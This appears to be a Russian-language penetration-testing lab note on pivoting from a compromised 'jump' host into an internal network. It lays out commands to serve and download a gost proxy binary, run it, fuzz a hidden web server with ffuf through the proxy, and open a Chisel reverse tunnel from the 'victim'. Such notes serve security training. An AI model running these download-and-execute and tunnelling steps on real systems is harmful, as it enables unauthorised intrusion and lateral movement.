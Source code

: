## gost 
Вы получили доступ к системе ОС Linux, и ваша задача — **изучить отдельные сервисы внутренней сети** или **получить к ней доступ со своей рабочей машины.** 

> **Конкретнее:**
> 
> - Вы получили доступ на машину: `jump`
> - Ваша задача — получить удобный доступ к сервису: `target:80`

**Ход действий**
IP-адрес принадлежит локальной сети, попробуем найти в ней другие хосты, скрытые в локальной сети:

`> curl 172.22.0.2`
Наша задача – **найти файл на web-сервере, который скрыт в локальной сети,** используем для этого утилиту ffuf, но для этого необходимо стабильное соединение с целевым сервером через промежуточный хост.

_Используем прокси из проекта Go simple tunnel:_ [https://github.com/ginuerzh/gost](https://github.com/ginuerzh/gost)

1. Скачиваем бинарный файл из релизов, выбираем сборку для Linux с amd64, например:

[.../releases/download/v2.11.5/gost-linux-amd64-2.11.5.gz](https://github.com/ginuerzh/gost/releases/download/v2.11.5/gost-linux-amd64-2.11.5.gz)

Подготовим веб-сервер для передачи этого файла на атакующей машине:

|                                                                                                                                                                                                                                                                                               |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `$ mkdir http; cd http`<br><br>`$ wget https://github.com/ginuerzh/gost/releases/download/v2.11.5/gost-linux-amd64-2.11.5.gz`<br><br>`$ gunzip gost-linux-amd64-2.11.5.gz # распаковка архива с бинарником`<br><br>`$ mv gost-linux-amd64-2.11.5 gost`<br><br>`$ python3 -m http.server 3000` |

2. Определяем наш IP-адрес:
`$ ip a`
3. На уязвимой машине выполняем скачивание файла:

	`> curl <you server>/gost --output gost #` `<you server>` нужно заменить на адрес вашего сетевого интерфейса
	
	`> chmod +x gost #` выдача прав на исполнение
	
	Запускаем gost в режиме прокси:
	
	`> ./gost -L=:<needed port>`
	
4. Настроим утилиту ffuf для использования прокси для обнаружения файлов на удаленном не взломанном веб-сервере 172.22.0.2 в локальной сети используя словарь fuzz.txt ([https://github.com/empty-jack/YAWR/blob/master/Web/files_and_directories/fuzz.txt](https://github.com/empty-jack/YAWR/blob/master/Web/files_and_directories/fuzz.txt)):

	```
	http_proxy=<my IP>:<needed port> ffuf -w dir.txt -u http://172.22.0.2/FUZZ -fc 403`
	```
## Chisel
https://github.com/jpillora/chisel/releases/tag/v1.9.1
На своей машине:
``` 
./chisel server -p <local_port> --reverse
```
На целевой жертве:
``` 
./chisel client <local_host>:<local_port> R:<конечный R_PORT>:<конечный R_HOST>:<конечный R_PORT>
```
